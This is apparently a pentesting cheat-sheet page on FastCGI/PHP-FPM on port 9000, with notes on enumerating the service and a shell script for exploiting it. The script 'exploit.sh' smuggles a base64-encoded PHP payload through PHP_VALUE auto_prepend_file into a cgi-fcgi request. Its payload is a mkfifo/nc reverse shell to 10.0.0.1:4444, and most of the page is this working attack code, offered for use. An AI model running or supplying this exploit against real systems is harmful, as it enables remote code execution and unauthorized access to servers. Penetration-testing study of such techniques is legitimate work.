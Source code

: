 ```yaml
---
description: Port 9000
---
```


# FastCGI

## Theory

FastCGI is a binary protocol for interfacing interactive programs with a web server. It uses the **9000 port** by default.  **Usually** FastCGI only listen in **localhost and** It's quiet easy to make FastCGI execute arbitrary code.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
If the **PHP-FPM (FastCGI Process Manager)** is running on the target system, we might be able to execute arbitrary command.

```bash
#Enum processes
ps aux | cat| grep php-fpm
php-fpm: pool username

#Enum network
ss -lntp
LISTEN 0    511    127.0.0.1:9000    0.0.0.0:*
```
{% endtab %}

{% tab title="Exploit" %}
We need to create an arbitrary PHP file somewhere. For instance,

```bash
touch /dev/shm/index.php
```

Then using the following shell script **"exploit.sh",** we can obtain a reverse shell

{% code title="exploit.sh" %}
```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done

```
{% endcode %}

Execute it:

```bash
chmod +x exploit.sh
./exploit.sh localhost
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}

